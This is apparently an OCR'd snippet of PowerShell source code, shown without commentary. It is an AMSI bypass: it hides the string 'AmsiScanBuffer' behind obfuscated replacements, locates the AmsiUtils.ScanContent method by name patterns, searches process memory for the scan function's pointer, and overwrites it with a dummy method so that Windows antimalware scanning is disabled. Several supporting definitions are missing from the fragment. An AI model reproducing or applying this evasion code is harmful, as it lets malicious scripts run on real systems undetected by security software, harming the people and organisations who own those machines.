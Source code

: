 ```

$string3 = 'hello, world'
$string3 = $string3.replace('hello','Bu')
$string3 = $string3.replace(', ','ff')
$string3 = $string3.replace('world','er')

$Address = [APIS]::GetModuleHandle($string)
[IntPtr] $funcAddr = [APIS]::GetProcAddress($Address, $string2 + $string3)

$Assemblies = [appdomain]::currentdomain.getassemblies()
$Assemblies |
  ForEach-Object {
    if($_.Location -ne $null){
     $split1 = $_.FullName.Split(",")[0]
     If($split1.StartsWith('S') -And $split1.EndsWith('n') -And $split1.Length -eq 28) {
       $Types = $_.GetTypes()
     }
    }
}

$Types |
  ForEach-Object {
    if($_.Name -ne $null){
     If($_.Name.StartsWith('A') -And $_.Name.EndsWith('s') -And $_.Name.Length -eq 9) {
       $Methods = $_.GetMethods([System.Reflection.BindingFlags]'Static,NonPublic')
     }
    }
}

$Methods |
  ForEach-Object {
    if($_.Name -ne $null){
     If($_.Name.StartsWith('S') -And $_.Name.EndsWith('t') -And $_.Name.Length -eq 11) {
       $MethodFound = $_
     }
    }
}

[IntPtr] $MethodPointer = $MethodFound.MethodHandle.GetFunctionPointer()
[IntPtr] $Handle = [APIs]::GetCurrentProcess()
$dummy = 0
$ApiReturn = $false
   
:initialloop for($j = $InitialStart; $j -lt $MaxOffset; $j += $NegativeOffset){
    [IntPtr] $MethodPointerToSearch = [Int64] $MethodPointer - $j
    $ReadedMemoryArray = [byte[]]::new($ReadBytes)
    $ApiReturn = [APIs]::ReadProcessMemory($Handle, $MethodPointerToSearch, $ReadedMemoryArray, $ReadBytes,[ref]$dummy)
    for ($i = 0; $i -lt $ReadedMemoryArray.Length; $i += 1) {
     $bytes = [byte[]]($ReadedMemoryArray[$i], $ReadedMemoryArray[$i + 1], $ReadedMemoryArray[$i + 2], $ReadedMemoryArray[$i + 3], $ReadedMemoryArray[$i + 4], $ReadedMemoryArray[$i + 5], $ReadedMemoryArray[$i + 6], $ReadedMemoryArray[$i + 7])
     [IntPtr] $PointerToCompare = [bitconverter]::ToInt64($bytes,0)
     if ($PointerToCompare -eq $funcAddr) {
       Write-Host "Found @ $($i)!"
       [IntPtr] $MemoryToPatch = [Int64] $MethodPointerToSearch + $i
       break initialloop
     }
    }
}
[IntPtr] $DummyPointer = [APIs].GetMethod('Dummy').MethodHandle.GetFunctionPointer()
$buf = [IntPtr[]] ($DummyPointer)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $MemoryToPatch, 1)
```